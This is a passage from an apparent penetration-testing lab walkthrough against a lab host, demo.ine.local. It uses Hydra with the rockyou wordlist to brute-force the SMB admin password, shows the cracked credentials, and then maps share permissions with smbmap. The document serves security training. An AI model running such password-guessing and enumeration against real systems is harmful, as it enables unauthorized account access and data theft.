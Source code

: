 #### What Each Share Might Contain:
- **shawn** - Personal files for user "shawn"
- **nancy** - Personal files for user "nancy"  
- **admin** - Administrative files (most interesting!)
- **IPC$** - System files (usually not accessible)

---

### Step 4: Attack More Passwords with Hydra

**What We're Doing:** Using Hydra to find passwords for the admin user

#### Commands Used:
```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -l admin -P /usr/share/wordlists/rockyou.txt demo.ine.local smb
```

#### What Happened:
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries
[DATA] attacking smb://demo.ine.local:445/
[445][smb] host: demo.ine.local   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

#### 🔓 Another Success:
- **Username:** admin (the administrator account)
- **Password:** password1 (very weak password!)
- **Attack Completed** - Found valid credentials
- **Administrative Access** - This is the most powerful account

#### Why This Is Important:
The admin account usually has access to all shares and files. This gives us the highest level of access.

---

### Step 5: Check Share Permissions

**What We're Doing:** See what files we can access with our admin credentials

#### Commands Used:
```bash
smbmap -H demo.ine.local -u admin -p password1
```

#### What Happened:
```bash
[+] IP: demo.ine.local:445      Name: demo.ine.local                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        shawn                                                   READ, WRITE     
        nancy                                                   READ ONLY       
        admin                                                   READ, WRITE     
        IPC$                                                    NO ACCESS       IPC Service
```
